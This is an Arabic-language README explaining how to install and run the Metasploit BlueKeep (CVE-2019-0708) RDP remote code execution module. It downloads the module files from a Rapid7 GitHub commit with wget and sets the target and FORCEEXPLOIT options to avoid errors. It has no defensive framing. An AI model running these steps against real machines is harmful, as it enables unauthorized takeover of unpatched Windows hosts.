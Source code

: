# bluekeep
 CVE- 2019-0708 هذه هي ثغرة الارديبي الاخيرة رقمها
 
 
للثغرة عدة مشاكل ولغاية لحظة بدء هذا المشروع لم يقوم رابد7 الى الان بوضعها في تحديثات الميتا سبلويت وهذا الاصدر فيها عدة مشاكل



طريقة تنصيب بسيطة يجب ان تقوم بتحديث الميتا سبلويت الى اخر اصدار عن  طريق جميع هذه الاوامر

msfupdate

apt-get update

apt-get upgrade


ثم تنفيذ الاوامر الاتية

cd cd /usr/share/metasploit-framework/lib/msf/core/exploit/


rm rdp.rb

wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb


mkdir /usr/share/metasploit-framework/modules/exploits/windows/rdp/


cd /usr/share/metasploit-framework/modules/exploits/windows/rdp/

wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb


الان تم التنصيب يجب اعادة تشغيل قواعدالبيانات وتشغيل الميتا سبلويت لاستخدمها عن طريق الاوامر الاتية 
service postgresql start

msfdb init 

msfconsole

الان بعض الاوامر المهمة لدخول للثغرة واستخدامها


set target 1


set FORCEEXPLOIT true



هذه هي اهم الاوامر المهمة بعد الدخول للثغرة لتفادي بعض الاخطاء

